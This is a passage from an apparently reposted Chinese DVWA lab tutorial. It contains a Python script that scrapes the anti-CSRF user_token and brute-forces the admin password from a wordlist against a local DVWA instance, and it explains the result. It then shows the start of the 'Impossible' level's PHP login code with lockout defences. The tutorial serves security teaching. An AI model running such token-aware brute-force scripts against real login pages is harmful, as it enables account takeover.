     
    def get_token(requrl,header):
        req = urllib2.Request(url=requrl,headers=header)
        response = urllib2.urlopen(req)
        print response.getcode(),
        the_page = response.read()
        print len(the_page)
        soup = BeautifulSoup(the_page,"html.parser")
        user_token = soup.form.input.input.input.input["value"] #get the user_token
        return user_token
    
    user_token = get_token(requrl,header)
    i=0
    for line in open("rkolin.txt"):
        requrl = "http://192.168.153.130/dvwa/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
        i = i+1
        print i,'admin',line.strip(),
        user_token = get_token(requrl,header)
        if (i == 10):
            break

get_token的功能是通过python的BeautifulSoup库从html页面中抓取user_token的值，为了方便展示，这里设置只尝试10次。

运行脚本时的Burpsuite截图

![][20]

打印的结果从第二行开始依次是序号、用户名、密码、http状态码以及返回的页面长度。

![][21]

对比结果看到，密码为password时返回的长度不太一样，手工验证，登录成功，爆破完成。

### **Impossible**服务器端核心代码

    <?php
    
    if(isset($_POST['Login'])){
    //CheckAnti-CSRFtoken
    checkToken($_REQUEST['user_token'],$_SESSION['session_token'],'index.php');
    
    //Sanitiseusernameinput
    $user=$_POST['username'];
    $user=stripslashes($user);
    $user=mysql_real_escape_string($user);
    
    //Sanitisepasswordinput
    $pass=$_POST['password'];
    $pass=stripslashes($pass);
    $pass=mysql_real_escape_string($pass);
    $pass=md5($pass);
    
    //Defaultvalues
    $total_failed_login=3;
    $lockout_time=15;
    $account_locked=false;
    

[1]: http://www.freebuf.com/articles/web/116437.html?utm_source=tuicool&utm_medium=referral
[5]: http://www.dvwa.co.uk/
[6]: http://img0.tuicool.com/eENRVju.jpg!web
[7]: http://www.freebuf.com/sectool/102661.html
[8]: http://img0.tuicool.com/3ay67fu.jpg!web
[9]: http://img0.tuicool.com/7RZBVfi.jpg!web
[10]: http://img0.tuicool.com/uiEr2uu.jpg!web
[11]: http://img1.tuicool.com/MnYVVrE.jpg!web
[12]: http://img0.tuicool.com/ZfQv6nn.jpg!web
[13]: http://img1.tuicool.com/QfM3I33.jpg!web
[14]: http://img2.tuicool.com/FjeYFjE.jpg!web
[15]: http://img0.tuicool.com/bYbUJjV.jpg!web
[16]: http://blog.csdn.net/hornedreaper1988/article/details/43520257
[17]: http://www.cnblogs.com/Safe3/archive/2008/08/22/1274095.html
[18]: http://img0.tuicool.com/YrYfuu7.jpg!web
[19]: http://img0.tuicool.com/V7bIvqy.jpg!web
[20]: http://img1.tuicool.com/3iy6Ff2.jpg!web
[21]: http://img0.tuicool.com/e6Vzqer.jpg!web
[22]: http://img2.tuicool.com/Mj6nQ33.jpg!web
[23]: http://www.cnblogs.com/pinocchioatbeijing/archive/2012/03/20/2407869.html